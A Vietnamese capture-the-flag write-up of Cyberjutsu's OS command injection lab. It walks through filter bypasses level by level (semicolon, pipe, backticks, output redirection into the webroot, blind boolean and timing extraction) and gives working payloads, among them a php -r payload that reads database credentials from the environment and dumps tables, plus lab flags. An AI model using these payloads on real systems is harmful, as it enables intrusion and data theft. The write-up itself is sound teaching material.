 # **Write-up lab Command Injection** 
Đây là write-up bài lab Command Injection của Cyberjutsu. Bài lab này gồm tất cả là 9 level, trong đó có 7 level được cung cấp source code và 2 level ẩn. Mọi người có thể làm thử trên [website](https://cmdi.cyberjutsu-lab.tech:12001/) của cyberjutsu hoặc chạy bằng docker (dùng lệnh `docker-compose up --build`)

## **1. [Level 1](https://cmdi.cyberjutsu-lab.tech:12001/)**
Source code: [index.php](./cmdi_level1/src/index.php)

Nhìn vào code, ta thầy rằng người ta sử dụng các lệnh shell để chạy chương trình 
```php
case "ping":
	$result = shell_exec("timeout 10 ping -c 4 $target 2>&1");
	break;
case "nslookup":
    $result = shell_exec("timeout 10 nslookup $target 2>&1");
    break;	
case "dig":
    $result = shell_exec("timeout 10 dig $target 2>&1");
    break;
```
Ta thấy rằng, biến target không được kiểm soát bởi bất kì điều gì cho nên đoạn code này ta có thể dùng OS Comand Injection để khai thác.

Thật vậy, nếu ta nhập là `;id` trong trường họp 'ping' thì chương trình sẽ thực hiện lệnh là
```zsh
timeout 10 ping -c 4 ;id 2>&1
```
Ở đây, chương trình sẽ thực hiện lệnh ping trước rồi đến lệnh id (note: dấu chấm phẩy có tác dụng ngăn cách giữa 2 lệnh). Nếu đúng là vậy thì sẽ có kết quả của lệnh id cho chúng ta.

Chúng ta hãy thử xem sao:
![id](./image/level1/1.png)
Vậy là chúng ta đã khai thác thành công rồi, chúng ta sẽ thay lệnh id bằng các câu lệnh khác để truy tìm ra flag

**Payload:**
-   **;ls /**
![ls /](./image/level1/2.png)
-   **;cat /142awdfasd_secret.txt**
![cat](./image/level1/3.png)

## **2. [Level 2](https://cmdi.cyberjutsu-lab.tech:12002/)**
Source code: [index.php](./cmdi_level2/src/index.php)

Nhìn vào code, ta thấy rằng, người ta không cho mình sử dụng dấu ; để phân cách các câu lệnh
```php
if (strpos($target, ";") !== false) 
    die("Hacker detected!");
```
![Fail](./image/level2/1.png)

Tuy nhiên, ngoài dấu ; ra, chúng ta còn có các cách khác để phân cách hai lệnh với nhau (dùng `|`, `||`, `&` hoặc `&&`). Ở đây ta sử dụng `|`.

**Payload: `|cat \*.txt`**
![Payload](./image/level2/2.png)

## **3. [Level 2.5](https://cmdi.cyberjutsu-lab.tech:12003/)**

Bài này không có source code.

Bài này người ta không cho mình dùng `;`, `|` và `&` tức là chúng ta không thể thực hiện nhiều câu lệnh cùng lúc

![;](./image/level3/1.png)
![|](./image/level3/2.png)
![&](./image/level3/3.png)

Tuy nhiên, ta vẫn có thể thực hiện lồng câu lệnh trong một câu lệnh bằng dấu `` ` `` hoặc `$()`
![example](./image/level3/4.png)

**Payload: `` `nl /*.txt` `` (dùng dig)**
![nl](./image/level3/5.png)

## **4. [Level 3](https://cmdi.cyberjutsu-lab.tech:12004/)**

Source code: [index.php](./cmdi_level3/src/index.php)

Nhìn vào code, ta thấy rằng kết quả của câu lệnh không được in ra cho chúng ta xem. Chúng ta chỉ biết rằng câu lệnh có thực hiện thành công hay không?
```php
case "backup":
    $result = shell_exec("timeout 3 zip /tmp/$target -r /var/www/html/index.php 2>&1");
    if ($result !== null && strpos($result, "zip error") === false)
        die("Backup thành công");
    else
        die("Backup không thành công");
    break;
```
Nếu chúng ta không xem được kết quả câu lệnh, thì chúng ta thử chuyển kết quả đó vào một file rồi ta đọc file đó bằng trình duyệt bằng dấu `>`

Ở đây, chúng ta thấy thư mục hiện tại của web là `/var/www/html/`. Vì vậy, chúng ta thử `;id>/var/www/html/lUcgryy.txt #` (dấu `#` là để comment lại phần phía sau của câu lệnh). Câu lệnh mà chương trình thực tế sẽ làm là

``` zsh
timeout 3 zip /tmp/;id>/var/www/html/lUcgryy.txt # -r /var/www/html/index.php 2>&1
```
Kết quả:

![id](./image/level4/1.png)
![id2](./image/level4/2.png)

Vậy là chúng ta đã khai thác thành công rồi
**Payload: `;cat /*.txt>/var/www/html/lUcgryy.txt #`**
![payload](./image/level4/3.png)

## **5. [Level 4](https://cmdi.cyberjutsu-lab.tech:12005/)**
Source code: [index.php](./cmdi_level4/src/index.php), [nginx.conf](./cmdi_level4/config/nginx.conf)

Mình thử lại payload của level 3 và nó cũng ra flag (chắc là lỗi kĩ thuật)

**Payload: `;cat /*.txt>/var/www/html/lUcgryy.txt #`**
![payload](./image/level5/1.png)

## **6. [Level 5](https://cmdi.cyberjutsu-lab.tech:12006/)**
Source code: [index.php](./cmdi_level5/src/index.php), [nginx.conf](./cmdi_level5/config/nginx.conf)

Source code như cũ, nhưng khi thử lại payload của 2 level trên thì file `lUcgryy.txt` không tồn tại trên server.
![404](./image/level6/1.png)

Có vẻ như người ta đã chặn quyền viết vào thư mục `/var/www/html` nên chúng ta không thể chuyển kết quả của câu lệnh vào file khác.

Tuy nhiên, chúng ta vẫn còn giả thiết là server sẽ trả về kết quả thành công hoặc thất bại của câu lệnh. Liệu chúng ta có cách nào lợi dụng điều đó không? Và câu trả lời là có, chúng ta vẫn làm lệnh backup như bình thường và đồng thời sẽ brute force để tìm ra từng kí tự trong file flag (mình đã biết rằng file flag là một file .txt nào đó trong thư mục `/`). Nếu kí tự đó không có trong flag thì ta sẽ trả về câu `zip error` để khiến server in ra câu `Backup không thành công` và ta sẽ dựa vào điều đó để tìm ra mỗi kí tự có trong flag. Từ đó, chúng ta có một python script: [exploit.py](./scripts/level5.py)

**Flag:**
```
lv5: CBJS{trUe_0r_f4lse_d3tEct1on_b56c6ec4dd59e1741144ee8913e6b857}
```
## **7. [Level 6](https://cmdi.cyberjutsu-lab.tech:12007/)**
Source code: [index.php](./cmdi_level6/src/index.php), [nginx.conf](./cmdi_level6/config/nginx.conf)

Nhìn vào code, ta thấy rằng chương trình chỉ cho ta biết là lệnh `back up` đã được chạy, chứ không thể biết là có thành công hay không. Vì vậy, ta không thể sử dụng cách của level 5 được.

Tuy vậy, ta vẫn có thể khai thác bằng cách kiểm soát thời gian server trả respond về tùy vào trường hợp rồi tính thời gian đó thay vì dựa vào kết quả server trả về. Từ đó, chúng ta có script: [level6.py](./scripts/level6.py)

**Flag**
```
CBJS{Dr_Str4nge_W1Ll_pR0ud_oF_y0U_5be2459fbc44d1c2331cb840acd15fd0}
```

## **8. [Level 7](https://cmdi.cyberjutsu-lab.tech:12008/)**
Level này không có source code (Source code trong thư mục mình tìm được khi nghịch website :)).
Level này có 2 flag.

Đầu tiên, ta tìm được cách để chèn lệnh vào bằng cách `';command #`

![ls](./image/level8/1.png)

Ở đây, ta thấy có hai file, `cat` chúng thì được hai file: [index.php](./cmdi_level7/index.php), [test_pdo.php](./cmdi_level7/test_pdo.php)

### **Flag 1**
**Payload: `';cat /*.txt #`**

![payload](./image/level8/2.png)
### **Flag 2**
Có vẻ như flag 2 nằm ở trong database mysql (dựa vào [test_pdo.php](./cmdi_level7/test_pdo.php)).

Đầu tiên, mình thử kết nối với mysql trên máy tính linux của mình thì không thể kết nối được. Do đó, chỉ có cách kết nối thông qua server của website bởi vì file [test_pdo.php](./cmdi_level7/test_pdo.php) chạy thành công.

![testmysql](./image/level8/3.png)
k
Vì vậy, mình test thử lệnh mysql nhưng nó không hoạt động bởi vì server không hỗ trợ lệnh này. Do đó, mình chuyển qua sử dụng lệnh php
Trước hết, mình kiểm tra thử lệnh này có hoạt động được hay không bằng cách `';php -r 'phpinfo();' #`
![testphp](./image/level8/4.png)

Vậy là nó hoạt động. Tiếp theo, mình nghiên cứu cách truy vấn thông tin của database này bằng php thì ra các payload sau:
```php
';php -r 'try{
    $connectionString = "mysql:host=" . getenv('MYSQL_HOSTNAME') . ";port=3306;dbname=" . getenv('MYSQL_DATABASE');
    $pdo = new \PDO($connectionString, getenv('MYSQL_USER'), getenv('MYSQL_PASSWORD'));
    $query = "SHOW TABLES";
    $result = $pdo->query($query);
    $rows = $result->fetchAll(PDO::FETCH_COLUMN);
    echo json_encode($rows);
    } catch(Exception $e) {
        echo "php connect to mysql failed with:\n $e";}' #
```
Payload này để biết được các table có trong database này. Ở đây chỉ có `flag_table`
![table](./image/level8/5.png)
Sửa biến query thành `SELECT * FROM flag_table` để truy xuất ra flag